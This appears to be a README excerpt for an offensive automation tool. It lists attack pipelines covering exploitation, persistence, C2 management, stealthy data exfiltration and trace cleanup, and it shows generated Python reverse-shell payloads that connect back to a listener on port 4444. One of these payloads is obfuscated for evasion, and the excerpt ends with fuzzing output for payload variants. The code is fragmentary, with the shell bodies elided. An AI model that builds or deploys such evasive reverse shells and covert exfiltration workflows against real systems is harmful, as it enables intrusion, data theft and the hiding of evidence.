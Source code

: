 #### Automation Templates:
1. **recon_and_exploit**: 10-phase comprehensive assessment
   - network_discovery → port_scanning → service_enumeration → vulnerability_scanning → payload_generation → exploitation → post_exploitation → persistence → data_exfiltration → cleanup

2. **payload_fuzzing**: 6-phase automated testing
   - baseline_payload_generation → fuzzing_variants_creation → injection_testing → evasion_testing → persistence_testing → cleanup_testing

3. **c2_automation**: 7-phase C2 management
   - c2_setup → listener_configuration → payload_deployment → session_management → command_automation → data_collection → session_cleanup

4. **stealth_operation**: 7-phase covert testing
   - passive_reconnaissance → low_profile_scanning → stealth_payload_generation → covert_deployment → silent_persistence → stealthy_exfiltration → trace_cleanup

## Advanced Features Demonstrated

### Payload Generation Results

#### Basic Python Payload:
```python
import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 4444))
    # ... standard reverse shell code
```

#### Advanced Python Payload (with obfuscation and evasion):
```python
import socket,subprocess,os,threading,time,base64
def AQtmseXz():
    try:
        import sys, os, random
        unlHErEc = [random.randint(1,100) for _ in range(10)]
        VFJrVwe2 = lambda x,y: x^y if isinstance(x,int) and isinstance(y,int) else x
        WEi59YGx = {'7K0L3': 'GkQyLOjfa5'}
        
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('127.0.0.1',4444))
        # Enhanced with evasion, obfuscation, and persistence
```

### Fuzzing Output Example:
```
✓ Fuzzing payloads generated successfully!
Directory: payloads/fuzzing/python_20250918_211650
Variants: 10

Sample Fuzzing Variants:
┏━━━━━┳━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ ID  ┃ File               ┃ Mutations               ┃
┡━━━━━╇━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ 1   │ fuzz_001_python.py │ structure_mutation      │
│ 2   │ fuzz_002_python.py │ character_substitution  │
│ 3   │ fuzz_003_python.py │ structure_mutation      │
└─────┴────────────────────┴─────────────────────────┘
```
